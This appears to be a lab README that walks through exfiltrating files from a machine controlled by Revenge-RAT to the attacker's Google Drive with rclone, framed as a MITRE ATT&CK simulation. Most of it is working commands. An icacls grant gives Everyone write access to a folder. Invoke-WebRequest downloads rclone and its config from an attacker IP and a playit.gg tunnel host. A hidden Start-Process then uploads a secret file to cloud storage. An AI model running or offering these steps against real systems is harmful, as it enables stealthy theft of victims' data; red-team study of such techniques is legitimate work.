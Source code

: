 ## MITRE ATT\&CK Exfiltration Simulation via Google Drive using **rclone**

We can exfiltrate data using RAT's built-in download functionality already, it will then save into **E:\Hacking\Tools\Revenge-RAT v0.3\Users\User_name\downloads**. But to simulate it through powershall I deep dive into this. I tried many ways, I tried to build a http server using flask, and then through port forwarding, I tried to send files there. But as the RAT doesn't have write access thats why I didn't manage to do it then. Then I tried to do it directly via Google Drive, but I faced typos there. Then I tried rclone, to do so, it is better to use your own drive. And for this,s I followed **https://console.cloud.google.com/auth/clients?inv=1&invt=AbxtVQ&project=theta-totem-446705-j3** this link, to get the client id and client secret, then I use it later while setting rclone. Here are the following steps to do exfiltration:

### 0. Give Write Access To a Folder
To give a folder **write access**, especially from a script or RAT shell (with limited UI or feedback), you can use PowerShell or `icacls` commands to set permissions. Here's how:

---

## Method: Use `icacls` to Grant Write Access

```cmd
icacls "C:\Your\Target\Folder" /grant Everyone:(OI)(CI)M
```

### Breakdown:

* `Everyone`: Grants access to all users (you can replace with a specific user if needed).
* `(OI)(CI)`: Applies to **files and subfolders** (Object Inherit + Container Inherit).
* `M`: Stands for **Modify**, which includes read/write permissions.

---

## Example:

To make `C:\PublicRAT` writeable:

```cmd
mkdir C:\PublicRAT
icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
```

Now your RAT shell should be able to **write files there**, e.g.:

```cmd
cmd.exe /c echo Hello > C:\PublicRAT\test.txt
```

### 1. **Prepare on Attacker Machine**

* Download `rclone` from: [https://rclone.org/downloads/](https://rclone.org/downloads/)
* Extract it somewhere like:
  `E:\Hacking\rclone-v1.69.2-windows-amd64\`

---

### 2. **Configure `rclone` with Google Drive**

In your **attacker machine's terminal**, run:

```bash
rclone config
```

Follow these steps:

1. Type `n` for a new remote.
2. Name it something like: `myStorage`
3. Choose storage type: `drive` (20 for Google Drive)
4. Follow the prompts to authenticate via browser (use your Google account).
5. At the end, type `y` to confirm, then `q` to quit.

This process generates the config file. Then try this command to find the actual location:

```bash
rclone config file
```

It will output something like:

```
Configuration file is stored at: C:\Users\Niloy\.config\rclone\rclone.conf
```

That’s the file you need to send to the victim. Once you find it, copy it to the folder where `rclone.exe` is located (on attacker machine) so you can send both files to the victim:


Then transfer both:

* `rclone.exe`
* `rclone.conf`

to the victim’s machine via the RAT.

---

### 3. **Host Files for Victim to Pull**

To simulate real-world behavior and avoid direct upload via RAT:

1. Copy `rclone.exe` and `rclone.conf` to a web-accessible server or local HTTP server:

   * E.g., start a server:

     ```bash
     python -m http.server 8000
     ```

     In directory where `rclone.exe` and `rclone.conf` are located.

---

### 4. **Use RAT (PowerShell Shell) to Download Files on Victim**

Go through **File Manager** to the expected folder and upload the **reclone.conf**, as it is small in size that's why we can upload it directly via RAT. But as the **rclone.exe** is big in size, thats why we need to send it via power shall. From the attacker, send PowerShell commands via RAT. You can do the same for the **rclone.conf** also.

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
# Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.conf" -OutFile "C:\PublicRAT\rclone.conf"
```

```powershell
Invoke-WebRequest -Uri "http://192.168.113.226:8000/rclone.exe" -OutFile "C:\NewRAT\rclone.exe"
```

Now `rclone.exe` and its config are on the **victim system**.

---

### 5. **Exfiltrate File Using `rclone` Remotely**

Send via RAT: 

```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
```

Notes:

* `myStorage` is the name you used during `rclone config`.
* You can exfiltrate any file the user has permission to read.

---

### 6. **Check Google Drive**

Your file (e.g., `secret.txt`) should now appear in the root of your Google Drive. You need to wait for some minutes (1-2) to get the file there.

---

### MITRE ATT\&CK Coverage:

![alt text](flow.png)

| Tactic              | Technique                                 | Description                         |
| ------------------- | ----------------------------------------- | ----------------------------------- |
| Execution           | T1059 - Command and Scripting Interpreter | PowerShell shell via RAT            |
| Ingress Tool        | T1105 - Ingress Tool Transfer             | Download `rclone.exe` and `.conf`   |
| Exfiltration        | T1567.002 - Exfil to Cloud Storage        | Send files to Google Drive          |
| Persistence/Stealth | T1027 - Obfuscated Files or Info          | Using trusted tools like PowerShell |


### Full process using port forwarding 

* Start the playit.gg both from homescreen and the playit-0.9.3-signed from **E:\Hacking\Tools\PlayIt.gg**
* E.g., start the server from **E:\Hacking\rclone-v1.69.2-windows-amd64\rclone-payload** :
   ```bash
   python -m http.server 8000
   ```
* Then do the following:
  ```powershall
  mkdir C:\PublicRAT
  icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
  ```
  
  Now your RAT shell should be able to **write files there**, e.g.:
  
  ```cmd
  cmd.exe /c echo Hello > C:\PublicRAT\test.txt
  ```
* If the **test.txt** successfully writes in that location, then first direct upload the latest `rclone.conf` in `C:\PublicRAT\`. Then do the following in RAT shell:

  ```powershell
  Invoke-WebRequest -Uri "http://silver-generate.gl.at.ply.gg:22366/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
  ```
* Then transfer data using the following convention:
  ```powershell
  Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
  ```
* Check your BSSE drive and click recent, you will get the desired file.
